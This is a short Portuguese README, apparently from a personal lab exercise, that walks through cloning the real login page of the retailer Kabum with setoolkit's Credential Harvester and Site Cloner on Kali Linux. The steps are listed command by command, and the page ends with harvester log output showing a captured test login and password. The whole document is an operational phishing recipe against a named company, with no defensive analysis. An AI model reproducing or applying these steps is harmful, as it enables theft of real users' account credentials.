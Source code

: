 # Phishing para captura de senhas da Kabum

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: https://www.kabum.com.br/login?

### Resutados

192.168.0.175 - - [13/Jun/2023 12:51:53] "GET / HTTP/1.1" 200 -
192.168.0.175 - - [13/Jun/2023 12:51:55] "GET /api/account/recaptcha HTTP/1.1" 404 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: {"login":"test@gmail.com.br","password":"Testando@123"}                             
POSSIBLE PASSWORD FIELD FOUND: {"login":"test@gmail.com.br","password":"Testando@123"}                                                                                 
                                                                                              
